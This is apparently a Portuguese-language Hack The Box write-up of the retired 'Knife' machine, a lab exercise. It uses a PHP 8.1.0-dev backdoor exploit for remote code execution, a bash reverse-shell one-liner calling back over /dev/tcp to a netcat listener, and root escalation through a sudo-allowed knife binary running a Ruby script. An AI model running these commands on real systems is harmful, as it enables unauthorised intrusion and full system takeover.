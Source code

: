 ```yaml
---
title: HTB Knife Writeup
author: Hastur
date: 2021-09-03 21:00:00 -0300
categories: [Writeups, Hack The Box - Retired]
tags: [HTB]
---
```


<img src="img/htb-knife-logo.png">

<br>


| Nome | Knife       |
|------|-------------|
|IP    | 10.10.10.242|
|Pontos| 20          |
|OS    | Linux       |
|Nível | Easy        |

<br>

##RECON

###Nmap
```
┌──(hastur㉿hastur)-[~]
└─$ sudo nmap -v -sCV -p- -Pn -O 10.10.10.242 --min-rate=512 
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea

```
Encontramos somente as portas 22 e 80 abertas. Vamos começar pela porta 80.

###Porta 80

<img src="img/htb-knife-1.png">

Apenas uma página simples sem links para seguir.

A varredura com gobuster também não trouxe nada relevante.

Vamos tentar o whatweb para obter mais informações.

```
┌──(hastur㉿hastur)-[~]
└─$ whatweb http://10.10.10.242/
http://10.10.10.242/ [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.10.242], PHP[8.1.0-dev], Script, Title[Emergent Medical Idea], X-Powered-By[PHP/8.1.0-dev]
```

Conseguimos identificar que o server roda em PHP na versão "PHP/8.1.0-dev", vamos procurar algum exploit.

```
┌──(hastur㉿hastur)-[~]
└─$ searchsploit "PHP 8.1.0-dev" 
PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution                       | php/webapps/49933.py
```

Vamos copiar o exploit para nosso diretório e nomeá-lo como "exploit.py".

```
┌──(hastur㉿hastur)-[~/knife]
└─$ python3 exploit.py
Enter the full host url:
http://10.10.10.242/

Interactive shell is opened on http://10.10.10.242/ 
Can't acces tty; job crontol turned off.
$ id
uid=1000(james) gid=1000(james) groups=1000(james)

$ ls -la
total 84
drwxr-xr-x  20 root root  4096 May 18 13:25 .
drwxr-xr-x  20 root root  4096 May 18 13:25 ..
lrwxrwxrwx   1 root root     7 Feb  1  2021 bin -> usr/bin
drwxr-xr-x   4 root root  4096 Jul 23 13:37 boot
drwxr-xr-x   2 root root  4096 May  6 14:10 cdrom
drwxr-xr-x  19 root root  4020 Sep  3 04:33 dev
drwxr-xr-x  99 root root  4096 May 18 13:25 etc
drwxr-xr-x   3 root root  4096 May  6 14:44 home
lrwxrwxrwx   1 root root     7 Feb  1  2021 lib -> usr/lib
lrwxrwxrwx   1 root root     9 Feb  1  2021 lib32 -> usr/lib32
lrwxrwxrwx   1 root root     9 Feb  1  2021 lib64 -> usr/lib64
lrwxrwxrwx   1 root root    10 Feb  1  2021 libx32 -> usr/libx32
drwx------   2 root root 16384 May  6 14:08 lost+found
drwxr-xr-x   2 root root  4096 May 18 13:20 media
drwxr-xr-x   2 root root  4096 May 18 13:20 mnt
drwxr-xr-x   5 root root  4096 May 18 13:20 opt
dr-xr-xr-x 358 root root     0 Sep  3 04:32 proc
drwx------   7 root root  4096 May 18 13:26 root
drwxr-xr-x  27 root root   820 Sep  3 16:47 run
lrwxrwxrwx   1 root root     8 Feb  1  2021 sbin -> usr/sbin
drwxr-xr-x   6 root root  4096 May 18 13:20 snap
drwxr-xr-x   2 root root  4096 Feb  1  2021 srv
dr-xr-xr-x  13 root root     0 Sep  3 04:32 sys
drwxrwxrwt  16 root root 12288 Sep  4 00:00 tmp
drwxr-xr-x  15 root root  4096 May 18 13:20 usr
drwxr-xr-x  14 root root  4096 May  9 04:22 var

$ 

```

Ao executarmos o exploit, temos uma versão bem resumida de RCE em forma de bash, esta versão do PHP possui uma falha de segurança no user-agent que permite execussão de código remoto.

Para podermos explorar de forma efetiva, precisamos de um tty shell, vamos iniciar um netcat ouvindo a conexão reversa.

```
┌──(hastur㉿hastur)-[~/knife]
└─$ nc -vlnp 8443
listening on [any] 8443 ...
```

Agora vamos enviar um payload no terminal do RCE.

```
┌──(hastur㉿hastur)-[~/knife]
└─$ python3 exploit.py
Enter the full host url:
http://10.10.10.242/

Interactive shell is opened on http://10.10.10.242/ 
Can't acces tty; job crontol turned off.
$ /bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.130/8443 0>&1"
```

Checando no netcat, conseguimos um shell.

<img src="img/htb-knife-2.png">

E dentro do diretório do usuário "james", conseguimos flag do usuário.

<img src="img/htb-knife-3.png">
<br>
##ESCALAÇÃO DE PRIVILÉGIOS

Já dentro do server, vamos fazer a enumeração local, com o comando `sudo -l`, encontramos algo interessante:

<img src="img/htb-knife-4.png">

O usuário tem permissão de executar `/usr/bin/knife` com privilégios de administrador sem uso de senha, vamos enumerar este binário.

<img src="img/htb-knife-5.png">

Quando enumeramos o diretório real do binário, podemos ver que se trata de um diretório de instalação do ruby.

<img src="img/htb-knife-6.png">

Ao tentar executar o programa, ele nos retora uma grande lista de opções de argumento, entre elas uma bem interessante:

<img src="img/htb-knife-7.png">

Isso significa que podemos executar scripts em ruby, vamos voltar para o diretorio do usuário james e criar um script.

```
james@knife:~$ pwd                                   
pwd
/home/james
james@knife:~$ echo 'exec "/bin/bash -i"' > hastur.rb
```
Ao executar `sudo /usr/bub/knife exec hastur.rb` temos nosso shell com root e podemos enumerar a flag.

<img src="img/htb-knife-8.png">

E comprometemos o server!!
<br>

<img src="img/hackerman.gif">
<br>
###Referências

| Vulnerabilidade                           | Url                                                                                                             |
|-------------------------------------------|-----------------------------------------------------------------------------------------------------------------|
| PHP 8.1.0-dev development version backdoor| [https://github.com/flast101/php-8.1.0-dev-backdoor-rce](https://github.com/flast101/php-8.1.0-dev-backdoor-rce)|


